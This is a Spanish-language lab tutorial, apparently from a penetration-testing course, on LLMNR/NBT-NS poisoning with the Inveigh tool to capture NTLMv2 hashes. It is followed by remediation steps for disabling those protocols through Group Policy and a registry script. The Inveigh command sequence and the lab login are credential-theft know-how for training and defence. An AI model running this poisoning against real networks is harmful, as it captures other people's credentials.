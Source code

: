 # Envenenamiento por LLMNR-NBT-NS desde Windows

### Envenenamiento por LLMNR-NBT-NS desde Windows

> **QUOTE:** En esta sección, exploraremos la herramienta [Inveigh](https://github.com/Kevin-Robertson/Inveigh) e intentaremos capturar otro conjunto de credenciales.

> **NOTE:** La herramienta [Inveigh](https://github.com/Kevin-Robertson/Inveigh) funciona de manera similar a Responder, pero está escrita en PowerShell y C#. Inveigh puede escuchar IPv4 e IPv6 y varios otros protocolos.

```powershell
# Nos conectamos a la máquina con xfreerdp
xfreerdp /v:10.129.232.145 /u:htb-student /p:Academy_student_AD!

# Vamos a importar el módulo de Inveigh
Get-ExecutionPolicy
Set-ExecutionPolicy Unrestricted
Import-Module .\Inveigh.ps1
(Get-Command Invoke-Inveigh).Parameters

# Comencemos Inveigh con la suplantación de LLMNR y NBNS
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y

# Podemos pausar el envenenamiento
- Pulsa la tecla ESC
- Luego escribe HELP

# Podemos capturar los hashes únicos escribiendo "GET NTLMV2UNIQUE"
```

> [https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters)

### Remedio

> **NOTE:** Mitre ATT\&CK enumera esta técnica como [ID: T1557.001](https://attack.mitre.org/techniques/T1557/001), `Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay`.

> **TIP:** Existen algunas formas de mitigar este ataque. Para garantizar que estos ataques de suplantación de identidad no sean posibles, podemos desactivar LLMNR y NBT-NS. Como advertencia, siempre vale la pena probar lentamente un cambio significativo como este en su entorno con cuidado antes de implementarlo por completo.

> **QUOTE:** Como evaluadores de penetración, podemos recomendar estos pasos de solución, pero debemos comunicar claramente a nuestros clientes que deben probar estos cambios exhaustivamente para asegurarse de que la desactivación de ambos protocolos no dañe nada en la red.

> **SUCCESS:** Podemos deshabilitar LLMNR en la Política de grupo yendo a Configuración del equipo -> Plantillas administrativas -> Red -> Cliente DNS y habilitando "Desactivar la resolución de nombres de multidifusión".

<figure><img src="../../.gitbook/assets/llmnr_disable.webp" alt=""><figcaption></figcaption></figure>

> **BUG:** No es posible desactivar NBT-NS mediante la directiva de grupo, sino que debe desactivarse localmente en cada host. Para ello, abra `Network and Sharing Center`, en el `Control Panel`, haga clic en `Change adapter settings`, haga clic con el botón derecho en el adaptador para ver sus propiedades, seleccione `Internet Protocol Version 4 (TCP/IPv4)`, haga clic en el botón `Properties`, luego haga clic en `Advanced`, seleccione la pestaña `WINS` y, por último, seleccione `Disable NetBIOS over TCP/IP`.

<figure><img src="../../.gitbook/assets/disable_nbtns.webp" alt=""><figcaption></figcaption></figure>

> **QUOTE:** Si bien no es posible deshabilitar NBT-NS directamente a través de GPO, podemos crear un script de PowerShell en Configuración del equipo --> Configuración de Windows --> Script (Inicio/Apagado) --> Inicio con algo como lo siguiente:

```powershell
$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
Get-ChildItem $regkey | foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose }
```

> **QUOTE:** En el Editor de políticas de grupo local, deberemos hacer doble clic en `Startup`, elegir la pestaña `PowerShell Scripts` y seleccionar "Para esta GPO, ejecutar scripts en el siguiente orden" para `Run Windows PowerShell scripts first`, y luego hacer clic en `Add` y elegir el script. Para que se produzcan estos cambios, tendríamos que reiniciar el sistema de destino o reiniciar el adaptador de red.

<figure><img src="../../.gitbook/assets/nbtns_gpo.webp" alt=""><figcaption></figcaption></figure>

> **TIP:** Para enviar esto a todos los hosts de un dominio, podríamos crear un GPO usando el `Group Policy Management` del controlador de dominio y alojar el script en el recurso compartido SYSVOL en la carpeta de scripts y luego llamarlo a través de su ruta UNC como:

`\\inlanefreight.local\SYSVOL\INLANEFREIGHT.LOCAL\scripts`

> **QUOTE:** Una vez que se aplica el GPO a unidades organizativas específicas y se reinician esos hosts, el script se ejecutará en el próximo reinicio y deshabilitará NBT-NS, siempre que el script aún exista en el recurso compartido SYSVOL y el host pueda acceder a él a través de la red.

<figure><img src="../../.gitbook/assets/nbtns_gpo_dc.webp" alt=""><figcaption></figcaption></figure>

> **TIP:** Otras mitigaciones incluyen filtrar el tráfico de red para bloquear el tráfico LLMNR/NetBIOS y habilitar la firma SMB para evitar ataques de retransmisión NTLM. Los sistemas de prevención y detección de intrusiones de red también se pueden utilizar para mitigar esta actividad, mientras que la segmentación de red se puede utilizar para aislar los hosts que requieren que LLMNR o NetBIOS estén habilitados para funcionar correctamente.
